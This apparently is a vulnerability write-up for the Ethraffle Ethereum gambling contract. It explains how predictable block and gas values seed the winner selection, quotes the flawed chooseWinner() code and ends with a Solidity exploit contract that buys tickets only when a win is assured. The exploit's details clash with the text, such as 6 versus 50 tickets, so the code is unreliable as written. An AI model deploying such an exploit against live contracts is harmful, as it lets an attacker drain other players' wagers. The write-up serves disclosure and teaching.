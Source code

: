 Ethraffle
======
https://etherscan.io/address/0x0248f089a622b74cebaa62573605af9a44966bf1#code

Vulnerability type
------
Bad randomness

Abstract
------
A gambling smart contract implementation for Ethraffle, an Ethereum gambling game, sells tickets and after the last ticket in a round was sold randomly generates a winner from all the buyers who will claim the price, generates a random value that is predictable by attacker. The developer wrote a `chooseWinner()` function that uses `block coinbase` and `gasPrice` as the seed. These can be predicted by writing the same random function code in an exploit contract to determine the `winningNumber` value, thus the attacker can always win.

Related code
------

    function buyTickets() payable public {
        ......
        // Choose winner if we sold all the tickets
        if (nextTicket > totalTickets) {
            chooseWinner();
        }
        ......
    }
    
    function chooseWinner() private {
        // Pseudorandom number generator
        uint remainingGas = msg.gas;
        bytes32 sha = sha3(
            block.coinbase,
            msg.sender,
            remainingGas,
            gasPrice
        );

        uint winningNumber = (uint(sha) % totalTickets) + 1;
        address winningAddress = contestants[winningNumber].addr;
        ......
    }

Details
------
After all tickets in a round(50 ticket for a round) was sold, `chooseWinner()` randomly generates a winner from all buyers. However, the seed of randomness, `block.coinbase`, `remainingGas` and `gasPrice`, can be accessed before the transaction, so the attacker can exploit this vulnerability to always win in the game.

Exploit
------
    contract Exploit{
    
        Ethraffle target;
        
        uint constant totalTickets = 6;
        
        function Exploit(address _target) public payable{
            target = Ethraffle(_target);
        }
    
        function attack(uint256 _amount) public payable{
        
            uint current_sold = target.nextTicket;
            if(current_sold + 1 > totalTickets){
                bytes32 sha = sha3(block.coinbase, this.address, msg.gas, tx.gasprice);
                uint winningNumber = (uint(sha) % totalTickets) + 1;
                
                if(winningNumber == totalTickets){          //if we will win
                    target.buyTickets.value(_amount)();
                    msg.sender.transfer(this.balance);
                }

            }
            
        }
    }
